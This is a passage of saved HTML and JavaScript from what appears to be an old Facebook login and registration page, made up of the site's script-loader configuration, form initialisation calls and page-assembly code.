H42Jh":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/y3\/r\/ppwOo4BAmlb.js"},"AtxWD":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/y1\/r\/fvXyHGM5qlP.js"}});
Bootloader.enableBootload({"legacy:async-signal":{"resources":["YO7w5"]},"editor":{"resources":["YO7w5","wLu\/7","JE+14"]},"AsyncDOM":{"resources":["YO7w5","gM1Bs"],"module":true},"ConfirmationDialog":{"resources":["YO7w5","wLu\/7","oE4Do"],"module":true},"Dialog":{"resources":["YO7w5","wLu\/7","byJia"],"module":true},"registration":{"resources":["YO7w5","wLu\/7","JE+14","A77NA","T8gbI","\/K81D"]},"IframeShim":{"resources":["YO7w5","wLu\/7","GTz7X","MqSmz"],"module":true},"ErrorSignal":{"resources":["YO7w5","cNca2"],"module":true},"event-extensions":{"resources":["YO7w5"],"module":true},"AsyncDialog":{"resources":["YO7w5","wLu\/7","GTz7X","byJia"],"module":true},"FbdDialogProvider":{"resources":["\/vuZw","YO7w5","bwsMw"],"module":true},"React":{"resources":["gM1Bs"],"module":true},"AsyncRequest":{"resources":["YO7w5"],"module":true},"PhotoSnowlift":{"resources":["YO7w5","wLu\/7","GTz7X","byJia","3quxQ"],"module":true},"SpotlightShareViewer":{"resources":["YO7w5","wLu\/7","X\/Fq6","zyFOp"],"module":true},"PhotoTagger":{"resources":["YO7w5","wLu\/7","byJia","9kSd2","3quxQ","GTz7X","SRzKv","KQ5I8"],"module":true},"fb-photos-snowlift-css":{"resources":["iQgIT","byJia"]},"Live":{"resources":["YO7w5","gM1Bs"],"module":true},"PhotoTagApproval":{"resources":["YO7w5","3quxQ","SRzKv"],"module":true},"PhotoTags":{"resources":["YO7w5","3quxQ","byJia","SRzKv"],"module":true},"TagTokenizer":{"resources":["YO7w5","3quxQ","M2hRu","SRzKv","byJia","GTz7X"],"module":true},"fb-photos-snowlift-fullscreen-css":{"resources":["VDymv"]},"PhotoPivot":{"resources":["YO7w5","wLu\/7","3quxQ","GTz7X","byJia","2ma5f"],"module":true},"SnowliftPicCropper":{"resources":["YO7w5","wLu\/7","byJia","3quxQ","GTz7X","j07DW","wxq+C"],"module":true},"PhotosButtonTooltips":{"resources":["YO7w5","GTz7X","wLu\/7","byJia","DZmeF"],"module":true},"VideoRotate":{"resources":["YO7w5","H42Jh"],"module":true},"AsyncResponse":{"resources":["YO7w5"],"module":true},"PhotoInlineEditor":{"resources":["YO7w5","3quxQ","GTz7X","wLu\/7","byJia","SRzKv","AtxWD"],"module":true},"Form":{"resources":["YO7w5","wLu\/7"],"module":true},"Toggler":{"resources":["YO7w5","wLu\/7","byJia","GTz7X"],"module":true},"Tooltip":{"resources":["YO7w5","GTz7X","wLu\/7","byJia"],"module":true},"DOM":{"resources":["YO7w5"],"module":true},"Input":{"resources":["YO7w5"],"module":true},"trackReferrer":{"resources":[],"module":true},"DimensionTracking":{"resources":["YO7w5"],"module":true},"HighContrastMode":{"resources":["YO7w5"],"module":true},"detect-broken-proxy-cache":{"resources":["YO7w5"]}});</script>
<script>require("InitialJSLoader").loadOnDOMContentReady(["YO7w5","wLu\/7","T8gbI","uqSgb","ne+Ol","rZ79y"]);</script>
<script>
Bootloader.configurePage(["A77NA","byJia","VuNPD"]);
Bootloader.done(["jDr+c"]);


require("InitialJSLoader").handleServerJS({"elements":[["m639397_2","login_form",2],["m639397_3","loginbutton",2],["m639398_4","login_form",2],["m639395_1","reg",2]],"define":[["BanzaiConfig",[],{"MAX_SIZE":10000,"MAX_WAIT":60000,"COMPRESSION_THRESHOLD":800,"gks":{"cavalry":true,"jslogger":true,"miny_compression":true,"notifications":true,"time_spent":true,"time_spent_debug":true,"useraction":true}}]],"require":[["PixelRatio","startDetecting",[],[1]],["FlipDirectionOnKeypress"],["PostLoadJS","loadAndRequire",[],["DimensionTracking"]],["PostLoadJS","loadAndCall",[],["HighContrastMode","init",[{"currentState":null,"spacerImage":"https:\/\/s-static.ak.facebook.com\/rsrc.php\/v2\/y4\/r\/-PAXP-deijE.gif"}]]],["IEPinnedSite","listenToNotifications",[],["https:\/\/s-static.ak.facebook.com\/rsrc.php\/yP\/r\/FE37bBX_c2p.ico"]],["ClickRefLogger"],["userAction","setUATypeConfig",[],[{"ua:n":false,"ua:i":false,"ua:d":false,"ua:e":false}]],["ScriptPathState","setUserURISampleRate",[],[0.0002]],["userAction","setCustomSampleConfig",[],[{"uan":{"test":{"test":true}}}]],["UserActionHistory"],["TinyViewport"],["WebStorageMonster","schedule",[],[false]],["AsyncRequestNectarLogging"],["LoginFormController","init",["m639397_2","m639397_3"],[{"__m":"m639397_2"},{"__m":"m639397_3"}]]]});

onloadRegister_DEPRECATED(function (){useragentcm();});
onloadRegister_DEPRECATED(function (){
      if (typeof RegUtil == 'undefined') {
        RegUtil = function() {};
      }
      RegUtil.captcha_class="ReCaptchaCaptcha";
      RegUtil.recaptcha_public_key="6LfDxsYSAAAAAGGLBGaRurawNnbvAGQw5UwRWYXL";
      });
onloadRegister_DEPRECATED(function (){RegistrationBootloader.init("registration_container", true, "reg", "form_focus", "https:\/\/www.facebook.com\/ajax\/register.php");});
onloadRegister_DEPRECATED(function (){startFormTypeABTester($("reg"))});
onloadRegister_DEPRECATED(function (){$("u5v8wy73").value = tz_calculate(1354996393)});
onloadRegister_DEPRECATED(function (){try { $("email").focus(); } catch (_ignore) { }});
onafterloadRegister_DEPRECATED(function (){Bootloader.loadComponents(["detect-broken-proxy-cache"], function(){ detect_broken_proxy_cache("0", "c_user") });});
</script>
<script>var bigPipe = new (require('BigPipe'))({"lid":0,"forceFinish":true});</script>

<script>bigPipe.onPageletArrive({"is_last":true,"css":["A77NA","byJia","VuNPD"],"js":["YO7w5","wLu\/7","T8gbI","uqSgb","ne+Ol","rZ79y"],"id":"first_response","phase":0})</script>                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     

<script>bigPipe.onPageletArrive({"is_last":true,"css":["A77NA","byJia","VuNPD"],"js":["YO7w5","wLu\/7","T8gbI","uqSgb","ne+Ol","rZ79y"],"id":"","phase":1,"the_end":true})</script>                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           </body></html>
